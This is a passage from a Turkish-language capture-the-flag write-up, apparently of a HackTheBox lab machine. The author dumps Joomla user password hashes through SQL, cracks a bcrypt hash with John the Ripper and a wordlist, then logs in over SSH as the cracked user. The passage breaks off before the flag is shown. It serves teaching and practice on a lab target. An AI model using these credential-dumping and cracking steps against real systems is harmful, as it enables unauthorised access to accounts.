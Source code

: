 Bu sonuçlardan `joomla` veri tabanını seçtim:

```text
use joomla;
```

Aşağıdaki sorgu ile kullanıcılara ait kullanıcı adı ve parola bilgisini ele geçirdim:

```sql
SELECT username,password FROM sd4fg_users;
```

```text title="Output" hl_lines="5"
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.01 sec)
```

Kısa bir Google aramasından sonra `logan` isimli kullanıcıya ait parola değerinin Bcrypt hash formatında tutulduğunu öğrendim.

Hash dizesinden parolayı elde etmek için John the Ripper aracını kullandım. Öncesinde bu hash dizesini bir dosyaya kaydettim:

```bash
echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > hash.txt
```

John aracını aşağıdaki şekilde kullandım:

```bash
john --format=bcrypt -w=/usr/share/wordlists/rockyou.txt hash.txt
```

```text title="Output" hl_lines="6"
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)
1g 0:00:00:14 DONE (2024-01-13 06:21) 0.06680g/s 93.78p/s 93.78c/s 93.78C/s kelvin..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

John, parolayı 20 saniyeden kısa bir sürede buldu.

Bu bilgiler ile SSH bağlantısı kurarak `www-data` --> `logan` yetki yükseltmesi gerçekleştirmiş oldum:

```bash
ssh logan@devvortex.htb
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:
